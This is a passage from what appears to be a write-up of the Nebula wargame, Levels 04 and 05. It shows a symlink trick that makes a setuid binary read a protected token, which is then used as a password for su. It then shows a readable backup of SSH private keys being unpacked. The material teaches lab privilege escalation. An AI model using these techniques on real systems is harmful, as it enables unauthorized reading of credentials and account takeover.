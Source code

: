 Right, so our goal is to read the token file:

``` plain
level04@nebula:/home/flag04$ ls
flag04  token
```

We don't have permission to do so directly. The flag04 executable can read files but it's conveniently coded not to read the token file. However, it's able to read other files just fine, provided we don't run into permission issues. So I went to */tmp* and made a symbolic link that points to the token file:

``` plain
level04@nebula:/tmp$ ln -s /home/flag04/token /tmp/readthis
level04@nebula:/tmp$ ls -l readthis 
lrwxrwxrwx 1 level04 level04 18 2015-09-04 01:17 readthis -> /home/flag04/token
```

And now I had the flag04 binary read the symlink, and implicitly, the token:

``` plain
level04@nebula:/home/flag04$ ./flag04 /tmp/readthis
06508b5e-8909-4f38-b630-fdb148a848a2
```

I was at a loss at what to do with this string, but since our objective is to run *getflag*, I tried <code>su flag04</code> and used the token as password and it worked. Then it was all a matter of running *getflag*:

``` plain
sh-4.2$ /bin/getflag
You have successfully executed getflag on a target account
```

### Level05

Check the flag05 home directory. You are looking for weak directory permissions

To do this level, log in as the level05 account with the password level05. Files for this level can be found in /home/flag05.

Taking a look in the flag05 directory:

``` plain
level05@nebula:/home/flag05$ ls -la 
total 5
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3353 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

Ok, the *.backup* folder seems interesting, let's see what's in there:

``` plain
level05@nebula:/home/flag05/.backup$ ls
backup-19072011.tgz
level05@nebula:/home/flag05/.backup$ tar zxvf backup-19072011.tgz 
.ssh/
tar: .ssh: Cannot mkdir: Permission denied
.ssh/id_rsa.pub
tar: .ssh: Cannot mkdir: Permission denied
tar: .ssh/id_rsa.pub: Cannot open: No such file or directory
.ssh/id_rsa
tar: .ssh: Cannot mkdir: Permission denied
tar: .ssh/id_rsa: Cannot open: No such file or directory
.ssh/authorized_keys
tar: .ssh: Cannot mkdir: Permission denied
```